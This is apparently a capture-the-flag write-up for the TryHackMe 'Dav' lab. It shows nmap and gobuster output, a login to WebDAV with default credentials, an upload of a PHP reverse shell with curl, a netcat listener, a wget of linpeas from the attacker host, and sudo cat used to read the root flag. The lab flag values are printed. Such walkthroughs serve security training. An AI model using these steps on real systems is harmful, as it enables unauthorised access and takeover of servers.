 # Dav
Read user.txt and root.txt

Initial nmap scan:
```
jeffrowell@kali:~/Documents/TryHackMe/Dav$ nmap -sC -sV -Pn -n $IP -oN nmap/initial.txt
# Nmap 7.80 scan initiated Thu May 14 22:36:06 2020 as: nmap -sC -sV -Pn -n -oN nmap/initial.txt 10.10.128.12
Nmap scan report for 10.10.128.12
Host is up (0.15s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 14 22:36:26 2020 -- 1 IP address (1 host up) scanned in 20.17 seconds
```

Port 80 is open, inital `gobuster` recon:
```
jeffrowell@kali:~/Documents/TryHackMe/Dav$ gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.128.12
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/14 23:13:59 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
/webdav (Status: 401)
===============================================================
2020/05/14 23:15:02 Finished
===============================================================
```

The `/webdav` endpoint is un-authorized, but we can easily find apache webdav default credentials online: `wampp:xampp`. Once we authenticate, the page returns a directory listing:


![webdav](https://user-images.githubusercontent.com/32188816/82014258-79dc3b80-9639-11ea-854a-883b6f62660a.png)

Since we are getting a directory listing with what appears to be default credentials, we can try to upload a PHP reverse shell. To do this, I like to use pentestmonkey's PHP reverse shell. Uploading the file we see it worked:

```
jeffrowell@kali:~/Documents/TryHackMe/Dav$ curl -u wampp:xampp --upload-file revshell.php http://$IP/webdav/
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>201 Created</title>
</head><body>
<h1>Created</h1>
<p>Resource /webdav/revshell.php has been created.</p>
<hr />
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.128.12 Port 80</address>
</body></html>
```

Now we can see the file in the directory listing:

![Screenshot_2020-05-14_23-31-34](https://user-images.githubusercontent.com/32188816/82015011-063b2e00-963b-11ea-8a59-e1c47419822a.png)

Before we execute the file, lets set up a listener:
```
nc -lvp 9999
```

After loading the file in the browser we get the connection back:
```
jeffrowell@kali:~/Documents/TryHackMe/Dav$ nc -lvp 9999
listening on [any] 9999 ...
10.10.128.12: inverse host lookup failed: Unknown host
connect to [10.8.21.42] from (UNKNOWN) [10.10.128.12] 55106
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 22:32:42 up 58 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id  
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

# Task 1
1. user.txt
Once we are on the box through the reverse shell, we can see that there are two users, and there is a user flag in the `/home/merlin` directory:
```
$ pwd
/
$ ls /home    	
merlin
wampp
$ cd /home/merlin
$ ls
user.txt
$ cat user.txt
449b40fe93f78a938523b7e4dcd66d2a
$
```

2. root.txt
In the shell, we can download `linpeas` from our local machine. Move to a directory or copy `linpeas` to the current directory then run Python's `SimpleHTTPServer` to serve the file.
Client:
```
python3 -m http.server 8888
```
Reverse Shell:
```
cd /tmp
wget http:10.8.21.42:8888/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
After running `linpeas` we see that the www-data user can run the cat command as root:
![Screenshot_2020-05-15_00-01-29](https://user-images.githubusercontent.com/32188816/82016909-308eea80-963f-11ea-96bb-452bf9da4de0.png)
Since we know that we can run `cat` as root, we can simply just cat out `root/root.txt` to get the flag:
```1
www-data@ubuntu:/tmp$ sudo cat /root/root.txt
sudo cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
```
